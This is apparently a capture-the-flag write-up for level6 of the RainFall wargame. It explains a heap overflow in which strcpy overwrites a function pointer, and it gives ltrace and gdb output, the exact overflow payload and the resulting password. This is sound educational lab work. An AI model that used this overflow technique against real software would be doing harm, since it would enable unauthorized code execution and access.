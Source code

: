 level6
======

*	We spawn with a [level6](src/level6) executable
	```console
	level6@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
	level6@RainFall:~$ ./level6 
	Segmentation fault (core dumped)
	level6@RainFall:~$ ./level6 test
	Nope
	```
*	Let's look at the [code](src/level6.c):
	- `main` takes a string as argument and then:	
		- `malloc dest[64]`
		- `malloc ppcVar1[4]`
		- store address of `m` in `ppcVar1`
		- `strcpy()` input into `dest`
		- calls `(**ppcVar1)()`
	- `m` just `puts("Nope")`
	- `n` cat the password of the next level

	So this seems to be a new type of issue since we have no `gets` nor `printf` here.
*	Since `m` is called through `ppcVar1`, our main goal should be to replace the address to `n`. We might exploit `strcpy()` which does no memory bound checking.
*	Using `ltrace` allow us to check that `dest` and `ppcVar1` are contiguously allocated on the heap or else we wouldn't be able to overflow it the right way.
	```console
	level6@RainFall:~$ ltrace ./level6 
	[...]
	malloc(64)         = 0x0804a008
	malloc(4)          = 0x0804a050
	```
	They do go one after the other and have a `0x48(HEX)` -> `72(DEC)` bytes difference [64 + 4 + address(4) = 72]
*	Now we need the address of `n`
	```gdb 
	(gdb) x n 
	0x8048454 <n>:  0x83e58955
	```
	little endian -> `\x54\x84\x04\x08`
*	Let's finish this exercice:
	```console
	level6@RainFall:~$ ./level6 $(python -c 'print("a" * 72 + "\x54\x84\x04\x08")')
	f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
	```